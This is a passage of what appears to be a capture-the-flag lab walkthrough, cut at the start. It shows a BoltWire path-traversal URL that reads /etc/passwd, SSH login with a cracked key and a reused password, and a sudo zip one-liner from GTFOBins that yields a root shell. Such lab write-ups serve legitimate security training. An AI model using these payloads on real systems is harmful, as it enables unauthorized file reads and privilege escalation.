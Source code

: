 Registered a BoltWire user and ran:

```
http://192.168.88.134:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd
```

Successfully leaked `/etc/passwd`. Found user: `jeanpaul`
<img width="1054" height="832" alt="image" src="https://github.com/user-attachments/assets/2f0770b4-dc74-4332-ae4e-ca674c98cf41" />
<img width="1047" height="781" alt="image" src="https://github.com/user-attachments/assets/f94ad5bd-b690-456b-bf51-352497e2d9db" />

---

## 5. SSH Access

Tried to SSH with the cracked `id_rsa` and used the password from `config.yml`. Success!

<img width="893" height="390" alt="image" src="https://github.com/user-attachments/assets/427d2f56-a0cd-4d34-9e17-21eb5dac30de" />

---

## 6. Privilege Escalation

Ran `sudo -l`:

<img width="1036" height="119" alt="image" src="https://github.com/user-attachments/assets/74463d5f-3c80-4945-bd36-3cb8ad336b76" />

Used GTFOBins for zip privilege escalation (https://gtfobins.github.io/gtfobins/zip/#sudo):

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

Got root!

<img width="642" height="316" alt="image" src="https://github.com/user-attachments/assets/f30255df-29b1-441c-8357-6b9f2fe36ed2" />

---

## Summary

* Exploited misconfigured NFS to extract SSH key.
* Used leaked creds from BoltWire and config.yml.
* Escalated to root with GTFOBins zip trick.

**Rooted!** 🏴
